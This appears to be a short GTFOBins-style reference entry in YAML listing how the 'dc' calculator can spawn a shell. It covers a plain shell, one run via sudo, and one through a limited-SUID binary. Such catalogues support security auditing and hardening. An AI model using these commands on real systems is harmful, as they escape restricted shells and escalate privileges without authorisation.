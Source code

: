 ```yaml
---
functions:
  shell:
    - code: dc -e '!/bin/sh'
  sudo:
    - code: sudo dc -e '!/bin/sh'
  limited-suid:
    - code: ./dc -e '!/bin/sh'
---
```

